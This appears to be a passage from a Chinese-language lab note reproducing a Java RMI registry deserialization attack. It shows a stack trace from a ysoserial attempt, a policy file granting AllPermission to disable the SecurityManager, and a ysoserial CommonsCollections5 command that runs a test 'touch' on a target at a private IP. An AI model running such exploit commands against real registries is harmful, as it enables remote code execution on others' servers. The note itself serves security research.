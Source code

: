         at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1774)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
        at java.io.ObjectInputStream.defaultReadFields(ObjectInputStream.java:1993)
        at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:1918)
        at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:1801)
        at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1351)
        at java.io.ObjectInputStream.readObject(ObjectInputStream.java:371)
        at sun.rmi.registry.RegistryImpl_Skel.dispatch(Unknown Source)
        at sun.rmi.server.UnicastServerRef.oldDispatch(UnicastServerRef.java:410)
        at sun.rmi.server.UnicastServerRef.dispatch(UnicastServerRef.java:268)
        at sun.rmi.transport.Transport$1.run(Transport.java:200)
        at sun.rmi.transport.Transport$1.run(Transport.java:197)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.Transport.serviceCall(Transport.java:196)
        at sun.rmi.transport.tcp.TCPTransport.handleMessages(TCPTransport.java:568)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run0(TCPTransport.java:826)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.lambda$run$78(TCPTransport.java:683)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler$$Lambda$1/1401807365.run(Unknown Source)
        at java.security.AccessController.doPrivileged(Native Method)
        at sun.rmi.transport.tcp.TCPTransport$ConnectionHandler.run(TCPTransport.java:682)
        at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
        at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
        at java.lang.Thread.run(Thread.java:745)
        at sun.rmi.transport.StreamRemoteCall.exceptionReceivedFromServer(StreamRemoteCall.java:303)
        at sun.rmi.transport.StreamRemoteCall.executeCall(StreamRemoteCall.java:279)
        at sun.rmi.server.UnicastRef.invoke(UnicastRef.java:375)
        at sun.rmi.registry.RegistryImpl_Stub.bind(RegistryImpl_Stub.java:73)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:77)
        at ysoserial.exploit.RMIRegistryExploit$1.call(RMIRegistryExploit.java:71)
        at ysoserial.secmgr.ExecCheckingSecurityManager.callWrapped(ExecCheckingSecurityManager.java:72)
        at ysoserial.exploit.RMIRegistryExploit.exploit(RMIRegistryExploit.java:71)
        at ysoserial.exploit.RMIRegistryExploit.main(RMIRegistryExploit.java:65)

看了一眼sun.rmi.registry.RegistryImpl.main()，一上来就安装SecurityManager。
为了减少干挠，弄个all.policy:

--------------------------------------------------------------------------
grant
{
permission java.security.AllPermission;
};
--------------------------------------------------------------------------

换个方式启动服务端:

java_8_40 \
-cp "commons-collections-3.1.jar" \
-Djava.security.policy=all.policy \
sun.rmi.registry.RegistryImpl 1099

java \
-cp ysoserial-0.0.6-SNAPSHOT-all.jar \
ysoserial.exploit.RMIRegistryExploit 192.168.65.23 1099 CommonsCollections5 \
"/bin/touch /tmp/scz_is_here"
